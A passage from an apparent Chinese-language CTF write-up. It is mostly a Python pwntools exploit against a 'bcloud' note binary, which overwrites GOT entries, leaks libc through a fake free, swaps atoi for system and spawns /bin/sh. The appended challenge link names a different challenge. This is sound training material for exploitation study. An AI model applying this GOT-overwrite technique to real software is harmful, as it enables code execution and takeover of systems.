 ```python

    #gdb.attach(p)
    # set notesize[0] = notesize[1] = notesize[2]=16
    # set notelist[0] = free@got, notelist[1]= notelist[2]=atoi@got
    p.sendlineafter('option--->>', '1')
    p.sendlineafter('Input the length of the note content:\n', str(1000))

    payload = p32(16) * 3 + (notelist_addr - notesize_addr - 12) * 'a' + p32(
        bcloud.got['free']) + p32(bcloud.got['atoi']) * 2
    p.sendlineafter('Input the content:\n', payload)

    # overwrite free@got with puts@plt
    p.sendlineafter('option--->>', '3')
    p.sendlineafter('Input the id:\n', str(0))
    p.sendlineafter('Input the new content:\n', p32(bcloud.plt['puts']))

    # leak atoi addr by fake free
    p.sendlineafter('option--->>', '4')
    p.sendlineafter('Input the id:\n', str(1))
    atoi_addr = u32(p.recv(4))
    libc_base = atoi_addr - libc.symbols['atoi']
    system_addr = libc_base + libc.symbols['system']
    log.success('libc base addr: ' + hex(libc_base))

    # overwrite atoi@got with system
    p.sendlineafter('option--->>', '3')
    p.sendlineafter('Input the id:\n', str(2))
    p.sendlineafter('Input the new content:\n', p32(system_addr))

    # get shell
    p.sendlineafter('option--->>', '/bin/sh\x00')
    p.interactive()


if __name__ == "__main__":
    exp()
```



## 題目

- [2016 Boston Key Party CTF cookbook](https://github.com/ctfs/write-ups-2016/tree/master/boston-key-party-2016/pwn/cookbook-6)
